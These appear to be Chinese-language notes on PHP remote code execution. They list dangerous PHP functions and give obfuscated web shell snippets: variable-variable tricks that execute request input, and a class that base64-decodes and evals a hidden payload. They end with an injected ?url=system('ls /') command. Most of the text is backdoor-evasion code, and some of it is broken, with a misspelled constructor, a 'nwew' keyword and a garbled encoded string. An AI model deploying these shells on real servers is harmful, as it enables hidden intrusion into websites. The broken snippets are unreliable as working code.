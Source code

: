 

## RCE漏洞（远程命令/代码执行）

* **system()** 
* **passthru()**
* **exec()**
* **shell_exec()**
* **popen()**
* **proc_open()**
* **pcntl_exec()**

#### Web 混淆

```PHP
<?php
    $a=$_GET['x'];		//可以用动态传参 用变量的值来作为我们的变量名
	$$a=$_GET['y'];
	$b($_POST['z']);

	$a = 'b';
	$$a = 'eval';
	$b = 'eval';
	$eval('')
?>
```

#### Web 类混淆

```php
<?php
class x
{
	public $payload = null;
    public $decode_payload = null;
    function _cocnstruct()			//初始化模式
    {		$this->payload='ZXZhbCgkx1BPU1RbYV0pOw==';
     		$this->decode_payload = @base64_decode( $this->payload );
     		@eval("/*sasas23123*/".$this->decode_payload."/*sdfw3123*/");
        
    }
}
nwew x();
?>
```

###  URl绕过

#### **先分析代码**

* **源码中出现`eval($_GET[‘url’])`说明可以使用GET方式以 `url`为参进行传值。**
  **``eval`函数可以将传入的代码当做命令执行；则传入`?url=system('ls /');``**

![image-20231019112722999](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231019112722999.webp) 

